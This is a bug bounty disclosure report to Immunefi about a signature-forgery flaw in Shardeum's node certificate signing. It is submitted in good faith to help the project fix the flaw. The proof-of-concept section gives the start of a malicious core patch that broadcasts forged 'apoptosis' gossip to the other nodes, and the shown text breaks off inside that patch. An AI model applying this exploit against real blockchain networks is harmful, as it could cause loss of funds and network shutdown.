 
# Tricking legit node to signed maliciously controlled custom payload

Submitted on Tue Aug 13 2024 15:31:31 GMT-0400 (Atlantic Standard Time) by @ZhouWu for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #34484

Report type: Blockchain/DLT

Report severity: Critical

Target: https://github.com/shardeum/shardeum/tree/dev

Impacts:
- Direct loss of funds
- Permanent freezing of funds (fix requires hardfork)
- Network not being able to confirm new transactions (total network shutdown)

## Description
## Description 
When node query certificate, it ask other node to sign the certificate. The node that is asked to sign the certificate will check if there are required field in payload and sign it to return it. 
The problem lies within the fact that the node does not check strictly such that there are more field than what is required. This allows attacker to craft a payload that contains more field than what is required and trick the node to sign the payload.

The vulnerable code: [here](https://github.com/shardeum/shardeum/blob/d7dddf01002846b77f83ebea3557e949d8c9c90f/src/index.ts#L6192)

## Background
I've reported this before but falsely assessed and closed. This new POC does not need any debug mode to avoid confusion. 

        
## Proof of concept
## Proof of concept

The shardus-core banch at the time of this poc is at `72fba67d3a551f21368c8b0fe94f951c8f5cc4f8`.
The shardeum branch at the time of this poc is at `d7dddf01002846b77f83ebea3557e949d8c9c90f`.
Please use this git HEAD to reproduce the poc.

- Start legit network of nodes
- Apply the following patch to malicious @shardus/core
```
diff --git a/src/shardus/index.ts b/src/shardus/index.ts
index 06184f15..d73d8a7f 100644
--- a/src/shardus/index.ts
+++ b/src/shardus/index.ts
@@ -960,6 +960,17 @@ class Shardus extends EventEmitter {
     }
   }

+    kill(payload: any){
+      const task = setInterval(() => {
+        if (currentQuarter === 1 || currentQuarter === 2) {
+          Comms.sendGossip("apoptosis", payload, "dummy string", Self.id, NodeList.byIdOrder, false);
+          clearInterval(task);
+        }
+      }, 1000)
+
```